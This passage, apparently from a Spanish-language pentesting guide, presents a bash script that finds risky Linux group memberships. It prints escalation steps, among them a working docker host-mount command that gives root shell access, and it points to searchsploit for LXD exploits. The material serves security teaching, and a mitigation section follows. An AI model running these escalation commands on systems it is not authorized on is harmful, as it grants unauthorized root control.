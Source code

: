 ### Script de enumeración automatizada

```bash
#!/bin/bash
# enum_groups.sh - Enumeración de grupos peligrosos

echo "[*] Enumerando grupos del usuario actual..."
user_groups=$(id | grep -o 'grupos=[^)]*' | cut -d= -f2)
echo "Grupos actuales: $user_groups"

# Comprobar grupos peligrosos
dangerous_groups=("docker" "wheel" "admin" "adm" "lxd" "lxc" "disk" "video")

echo -e "\n[*] Verificando grupos peligrosos..."
for group in "${dangerous_groups[@]}"; do
    if id | grep -q "\b$group\b"; then
        echo "[!] ENCONTRADO: Grupo peligroso '$group'"
        case $group in
            "docker")
                echo "    -> Puede ejecutar: docker run --rm -it -v /:/mnt alpine chroot /mnt sh"
                ;;
            "wheel"|"admin")
                echo "    -> Verificar: sudo -l"
                ;;
            "adm")
                echo "    -> Acceso a logs: ls -la /var/log/"
                ;;
            "lxd"|"lxc")
                echo "    -> Escalada LXD posible"
                ;;
        esac
    fi
done

# Verificar Docker específicamente
if command -v docker &> /dev/null && docker ps &> /dev/null; then
    echo "[!] Docker está disponible y accesible!"
    echo "    Comando de escalada: docker run --rm -dit -v /:/mnt/root --name priv ubuntu"
fi

# Verificar LXD
if command -v lxc &> /dev/null; then
    echo "[!] LXD/LXC disponible!"
    echo "    Buscar exploits: searchsploit lxd privilege escalation"
fi
```

---

## 🛡️ Detección y Mitigación
